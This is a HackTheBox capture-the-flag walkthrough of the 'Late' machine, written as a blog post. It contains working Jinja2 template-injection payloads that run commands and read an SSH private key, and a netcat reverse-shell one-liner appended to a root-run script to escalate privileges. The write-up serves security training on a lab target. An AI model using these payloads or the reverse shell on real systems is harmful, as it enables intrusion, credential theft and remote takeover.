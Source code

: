```yaml
---
weight: 1
title: "Hackthebox - Late"
date: 2022-08-01T8:26:21+05:00
lastmod: 2022-08-01T8:26:21+05:00
draft: false
author: "Saad Akhtar"
authorLink: "https://ssaadakhtarr.github.io/"
description: "Hackthebox easy machine late walkthrough & tutorial.."
images: []
resources:
- name: "featured-image"
  src: "0.png"

tags: ["hackthebox", "machines"]
categories: ["HackTheBox"]

lightgallery: true

toc:
  auto: false
---
```


This post is focused on the walkthrough of Easy Machine Late from HackTheBox.

<!--more-->

## Enumeration

Starting out with the initial nmap scan.

```bash
nmap -A -vv 10.10.11.156 -oN nmapN
```

![Nmap Scan](1.png "Nmap Scan")

We have ports 22 and 80 is open. So let's enumerate port 80 now.

![Website](2.png "Website")

We have a website here titled Late.

Scrolling through the website I found a link pointing to *images.late.htb*.

![images.late.htb link](3.png "images.late.htb link")

Let's add late.htb and images.late.htb in our /etc/hosts file.

```bash
echo "10.10.11.156 late.htb " | sudo tee -a /etc/hosts
echo "10.10.11.156 images.late.htb " | sudo tee -a /etc/hosts
```

Visiting *images.late.htb* we have,

![images.late.htb page](4.png "images.late.htb page")

The title says it converts image to text. Let's try that out. 

I took a screenshot of a text and uploaded the file and it returned with the correct text. I uploaded,

![Test Screenshot](5.png "Test Screenshot")

It returned,

![Test Output](6.png "Test Output")

Since the title of the page says it converts image to text with flask. I started trying most common vulnerability of flask Server Side Template Injection (SSTI).

I uploaded the following payload.

![Test Payload](7.png "Test Payload")

And it returned *49*.

This confirmed the SSTI. I further enumerated to confirm the template engine and it turned out to be Jinja2.

## Gaining Access

For command injection, I injected the following payload from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection).

```python
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
```

And got the following output.

![Test Output](8.png "Test Output")

Boom! Our command successfully got injected. Let's grab the ssh private key for a stable command shell.

```python
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat /home/svc_acc/.ssh/id_rsa').read() }}
```

The output,

![RSA Private Key](9.png "RSA Private Key")

## user.txt

```bash
ssh -i id_rsa svc_acc@late.htb
```

![user.txt](10.png "user.txt")

## Privilege Escalation

After enumerating for a while I came across a file in */usr/local/sbin*.

![/usr/local/sbin](11.png "/usr/local/sbin")

Reading the file's contents.

![ssh-alert.sh](12.png "ssh-alert.sh")

As can be seen this file is sending a mail to *root@late.htb* every time a ssh login is detected.

I tried manipulating the file's contents but got a message Operation not permitted.

Checking the file's attributes.

![lsattr](13.png "lsattr")

Since 'a' (append only) flag is enabled, we can append our code within the script to escalate our privileges.

I appended a reverse shell in the script which will connect back to my machine as root.

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 4444 >/tmp/f" >> ssh-alert.sh
```

On my machine I started up a netcat listener

Now I need to login using ssh again and I'll get a connection back to my machine.

![nc listener](14.png "nc listener")

## root.txt

![root.txt](15.png "root.txt")

<center>
<img src="16.gif" alt="yess" width="400"/>
</center>

**Thanks for reading!**
